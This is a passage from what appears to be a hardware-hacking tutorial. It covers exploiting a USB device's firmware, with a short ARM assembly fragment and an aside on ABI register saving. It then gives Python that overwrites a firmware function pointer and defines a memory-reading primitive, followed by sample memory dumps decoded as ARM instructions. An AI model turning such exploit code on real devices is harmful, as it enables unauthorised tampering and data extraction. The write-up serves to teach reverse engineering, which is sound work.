 ```asm
bx lr
```

<div class="aside_q"><p>Why do we need to save <code>r4</code>?</p></div>

<div class="aside_a"><p>The ABI says so. ABIs typically designate that called functions can freely modify only certain registers. Called functions have to save and restore the others. This is a trade-off to try to reduce unnecessary saving and reloading of data which is no longer needed.</p></div>

Now that we have this exploit code, we can now add some more code to the Python script in order to use it:

```python
print("sending pwn command")
iomap_w32(CMD_MODULE, CMD_OFF_FNPTR, 0x00200000 + 32*1024)

def pwn_read(addr):
    cmd = struct.pack("<BBI", 0, 0xaa, addr)
    dev.write(1, cmd)
    result = bytes(dev.read(0x82, 64))
    # print(result)
    assert result[:2] == struct.pack("<BB", 2, 0xaa)
    result_val = struct.unpack("<I", result[2:])[0]
    return result_val
```

This code sends a "direct" command with a dummy command byte of 0xaa (the firmware assumes this exists) followed by an address we want to read. The result contains the dummy command followed by 4 bytes of data. We can now try it out:

```python
>>> hex(pwn_read(0))
'0xeafffffe'
>>> hex(pwn_read(4))
'0xeafffffe'
>>> hex(pwn_read(8))
'0xeafffffe'
>>> hex(pwn_read(0xc))
'0xeafffffe'
>>> hex(pwn_read(0x10))
'0xeafffffe'
>>> hex(pwn_read(0x14))
'0xeafffffe'
>>> hex(pwn_read(0x18))
'0xea000009'
>>> hex(pwn_read(0x1c))
'0xe1a09000'
>>> hex(pwn_read(0x20))
'0xe5980104'
```

This certainly looks like valid ARM code! (The leading `0xe` indicates an instruction which is always executed (in ARM, every instruction has an option to be conditionally executed only if certain flags are true), and `0xeafffffe` is an infinite loop.)
